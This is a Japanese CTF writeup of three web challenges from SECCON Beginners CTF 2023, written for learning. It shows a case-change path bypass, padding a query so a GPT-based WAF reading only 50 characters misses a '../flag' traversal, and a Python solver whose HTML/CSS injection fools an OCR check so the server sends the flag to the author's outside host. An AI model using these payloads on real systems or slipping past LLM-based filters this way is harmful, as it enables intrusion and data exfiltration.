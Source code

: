 ```yaml
---
title: "SECCON Beginners CTF 2023 Writeup"
date: 2023-06-04T17:43:20+09:00
draft: false
---
```


こんにちは，[がーと](https://twitter.com/gaato__)です．久しぶり（去年のこの大会ぶり？）に CTF に参加しました．

![result](//media.discordapp.net/attachments/789906031404384257/1114785113130143835/image.png)

自分が解けた Web の３問の Writeup を書きます．

## Forbidden

- author: Tsubasa
- begginer
- 431 Solved

> You don't have permission to access /flag on this server.

> https://forbidden.beginners.seccon.games

> Forbidden.tar.gz 018c1361937a789b327181c9a46ec574906c360c

`app/index.js` を見ると

```js
if (req.path.includes('/flag')) {
    return res.send(403, 'Forbidden :(');
}
```

とあるので `/flag` と全く同じ文字列を含まず `/flag` と等価なパスにアクセスすれば良い．

ということで `/FLAG` とアクセスするとフラグゲット．
（頭が堅いのでこの問題一番時間かかりました）

# aiwaf

- author: Satoki
- easy
- 256 Solved

> AI-WAFを超えてゆけ！！ ※AI-WAFは気分屋なのでハックできたりできなかったりします。

> https://aiwaf.beginners.seccon.games

> aiwaf.tar.gz 2ce11f780bbdae5509bd80f9b3ef9d7545951f9f


`app/app.py` を見ると
```py
    prompt = f"""\
以下の{puuid}に囲まれた部分のURLクエリはパストラバーサル攻撃でしょうか？
そうである場合Yesを、違う場合Noを返してください。
../やflagという文字列が含まれていた場合もYesを返してください。

{puuid}
{urllib.parse.unquote(request.query_string)[:50]}
{puuid}
"""
```
とあるが，GPT に渡すプロンプトはクエリ文字列の先頭 50 文字しか見ていないので，先頭 50 文字をパストラバーサル攻撃っぽくないようにパストラバーサル攻撃をすればよい．
（先頭 50 文字に無意味なクエリパラメータを追加する）

すなわち，`https://aiwaf.beginners.seccon.games/?username=testuser&password=V3ryStr0ngPassw0rd&file=../flag` にアクセスするとフラグゲット．

# phisher2

- author: xryuseix
- medium
- 118 Solved

> 目に見える文字が全てではないが、過去の攻撃は通用しないはずです。

> https://phisher2.beginners.seccon.games

> phisher2.tar.gz 30ecedac5abd7d27ea3e4ae75c4237c949ba842c

個人的に一番楽しかった問題です．

`/` に POST された時サーバが行っている処理は以下の通りです．

1. JSON の `text` フィールドに入ってる文字列を変数 `text` に入れる．
2. さっきの `text` を `'<p style="font-size:30px">{text}</p>'` に入れて HTML として保存する．
3. さっきの HTML ファイルを selenium で開き，OCR で文字列を読み取る．
4. OCR で読み取った文字列に含まれる URL が安全な URL（`https://phisher2.beginners.seccon.games` から始まる）でなければ，エラーを返す．
5. OCR で読み取った文字列が安全な URL だったら，**最初 JSON の `text` フィールドに入れた文字列の中に含まれる URL に** `?={FLAG}` を付けて GET リクエストを送る．

つまり `text` の条件は
- 最後に `?={FLAG}` を付けても自分でアクセスログが見られる意味の通る URL
- `'<p style="font-size:30px">{text}</p>'` にインジェクションして HTML でレンダリングした時見た目上は安全な URL に見える文字列

です．

これを踏まえた私の Solver です．

```py
import requests

url = "https://phisher2.beginners.seccon.games/"
text = """https://gaato.net</p><style type="text/css">p{display:none;}</style><h1>https://phisher2.beginners.seccon.games/foobar</h1><p>"""
data = {"text": text}
res = requests.post(url, json=data)
print(res.text)
```

インジェクションの説明は省きますが，HTML でレンダリングした時 `https://phisher2.beginners.seccon.games/foobar` に見えるが，実際のインプットから取得される URL は `https://gaato.net` なので，`https://gaato.net?={FLAG}` にアクセスされ，アクセスログを見ればフラグゲット．

~~私は `gaato.net` を admin に share したかったので自分のサーバを使いましたが~~自分のサーバを持っていない場合は [Request Inspector](https://requestinspector.com/) などを使うと良いです．
